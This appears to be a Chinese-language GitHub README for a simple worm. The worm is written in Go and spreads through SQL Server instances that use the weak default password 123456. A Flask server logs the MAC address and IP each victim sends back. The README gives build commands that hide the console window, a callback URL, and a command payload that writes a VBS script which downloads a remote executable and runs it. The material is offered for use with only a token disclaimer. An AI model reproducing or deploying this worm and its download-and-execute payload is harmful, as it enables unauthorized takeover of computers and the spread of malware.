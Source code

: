 # Simple-Worm
------------
基于Golang利用sqlserver 弱口令（123456）写的一个简单的小蠕虫  

请勿用于破坏/反正没写几个函数

Server - 基于Python flask搭建的一个简单http服务端。用于记录蠕虫返回的数据(mac信息、某个网卡ip、和上传时间)  

Client - 基于Golang编写的蠕虫主文件

Server 端依赖库
```
MySQL-python
flask
```
Server运行
```
cd server/
python web.py
```
MySQL创建
```mysql
create database bot;
create table (mac text,ip text,time text)
```
需要手动修改里面的 ** MYSQL_HOST,MYSQL_USER,MYSQL_PASS,MYSQL_DB **

运行后访问地址： http://localhost/view

Client 编译

```bash
cd client/
go build -ldflags="-H windowsgui"
```
Client 调试运行
```bash
cd client/
go run main.go func.go
```
配置修改 

func.go 修改里面的域名即可
```
url := "http://localhost/callback?ip=" + ip + "&time=" + string(time) + "&mac=" + _mac // 回传信息

var exploit = `echo Set Post = CreateObject("Msxml2.XMLHTTP") >>zl.vbs && echo Set Shell = CreateObject("Wscript.Shell") >>zl.vbs && echo Post.Open "GET","https://remote/1.exe",0 >>zl.vbs && echo Post.Send() >>zl.vbs && echo Set aGet = CreateObject("ADODB.Stream") >>zl.vbs && echo aGet.Mode = 3 >>zl.vbs && echo aGet.Type = 1 >>zl.vbs && echo aGet.Open() >>zl.vbs && echo aGet.Write(Post.responseBody) >>zl.vbs && echo aGet.SaveToFile "zl.exe",2 >>zl.vbs && echo wscript.sleep 1000 >>zl.vbs && echo Shell.Run ("zl.exe") >>zl.vbs && cscript zl.vbs`
	
```
------------
为什么编写

某个机房，里边默认安装了sqlserver,并且默认密码都是123456 

IP扫描就乱写了。里边还有部分代码不合理

蠕虫登陆后![image](https://raw.githubusercontent.com/dongdong1972/Simple-Golang-Worm/master/image/result.PNG)
------------
